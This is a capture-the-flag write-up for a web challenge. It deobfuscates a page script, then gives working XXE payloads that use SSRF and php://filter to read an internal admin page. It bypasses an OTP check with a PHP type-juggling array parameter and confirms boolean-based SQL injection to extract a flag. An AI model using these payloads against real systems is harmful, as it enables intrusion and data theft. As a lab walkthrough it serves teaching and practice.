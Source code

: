 WriteUp

Task starts with basic index page.

We have only one field under control and restricted page. no cookies, no strange headers.

/robots.txt has one entery with docker log where we could get the hostname.

Inspection of sources bring us strange obfuscated script:

<script type="text/javascript"> var _0x2396=["","\x3C\x3F\x78\x6D\x6C\x20\x76\x65\x72\x73\x69\x6F\x6E\x3D\x22\x31\x2E\x30\x22\x20\x65\x6E\x63\x6F\x64\x69\x6E\x67\x3D\x22\x55\x54\x46\x2D\x38\x22\x3F\x3E","\x3C\x72\x6F\x6F\x74\x3E","\x3C\x65\x6D\x61\x69\x6C\x3E","\x76\x61\x6C","\x23\x65\x6D\x61\x69\x6C","\x3C\x2F\x65\x6D\x61\x69\x6C\x3E","\x3C\x2F\x72\x6F\x6F\x74\x3E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x6C\x6F\x67","\x72\x65\x73\x70\x6F\x6E\x73\x65\x54\x65\x78\x74","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x65\x72\x72\x6F\x72\x4D\x65\x73\x73\x61\x67\x65","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x50\x4F\x53\x54","\x70\x72\x6F\x63\x65\x73\x73\x2E\x70\x68\x70","\x6F\x70\x65\x6E","\x73\x65\x6E\x64"];function XMLFunction(){var _0xca21x2=_0x2396[0]+ _0x2396[1]+ _0x2396[2]+ _0x2396[3]+ $(_0x2396[5])[_0x2396[4]]()+ _0x2396[6]+ _0x2396[7];var _0xca21x3= new XMLHttpRequest();_0xca21x3[_0x2396[8]]= function(){if(_0xca21x3[_0x2396[9]]== 4){console[_0x2396[10]](_0xca21x3[_0x2396[9]]);console[_0x2396[10]](_0xca21x3[_0x2396[11]]);document[_0x2396[14]](_0x2396[13])[_0x2396[12]]= _0xca21x3[_0x2396[11]]}};_0xca21x3[_0x2396[17]](_0x2396[15],_0x2396[16],true);_0xca21x3[_0x2396[18]](_0xca21x2)} </script>

After some magic it should be readeble:

<script type="text/javascript"> var xml = '<?xml version="1.0" encoding="UTF-8"?><root><email>val#email</email></root>'; var xmlhttp = new XMLHttpRequest(); xmlhttp.onreadystatechange = function () { if(xmlhttp.readyState == 4){ console.log(xmlhttp.readyState); console.log(xmlhttp.responseText); document.getElementById('errorMessage').innerHTML = xmlhttp.responseText; } } xmlhttp.open("POST","process.php",true); xmlhttp.send(xml); </script>

Woah! it's frontend script for creating xml! burp could show us thats xml is fully controlled.

PFFFF easiest web in my life! only one XXE and flag is mine!

Suka blyad'! no LFI! where is my flag? admin allo!

Once LFI is not working try SSRF more that, we have seen admin area. its accessible from internal web.

Modifying a little xml we get a payload

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://127.0.0.1:20005/admin.php">]><root><email>&test;</email></root>

It's not working! AUGHHHH

STOP! docker log sad us about dockerhost! let's try again!!

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://web/admin.php">]><root><email>&test;</email></root>

It's not working!! oh god why??? and god sad us: HTML familiar with XML and breaks in in processing, encode it!

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php">]><root><email>&test;</email></root>

OOOOOOOMG we got an admin pannel! but WTF, its a login pannel oh!

<form action="" method="get"> <label>UserName :</label><input type="text" name="username" /><br /><br /> <label>Password :</label><input type="password" name="password" /><br /><br /> <label>otp :</label><input type="otp" name="otp" /><br /><br /> <input type="submit" value=" Submit " /><br /> </form>

lets try to login, with a get query!

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp=3">]><root><email>&test;</email></root>

any data in query returns us "BAD OTP"

php is not a php if it is not comparasion bugs! rare type of type juggling brings us a luck!

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY
test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp[]=3">]><root><email>&test;</email></root>

just a moment! wtf is not working again! [] are XML special chars and we have to encode them with url encode

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp%5B%5D=3">]><root><email>&test;</email></root>

luck again! we got "user doesn't exists"

attempts to bruteforce are usless...

maybe its SQLI? we all love sqli!!!!!

' or 1=1 — returned "exists" ' or 1=0 — returned "not exists"

boolean based SQLI confirmed!

now u have 3 ways: try to install sqlmap (its really hard cuz via XXE and sqlmap just crashes) write a proxy for sqlmalp to needed parameter do it manually (rly first solve for this task got a flag by hands, second too)

surprise! there is one more column 'secrets'

flag stored there!
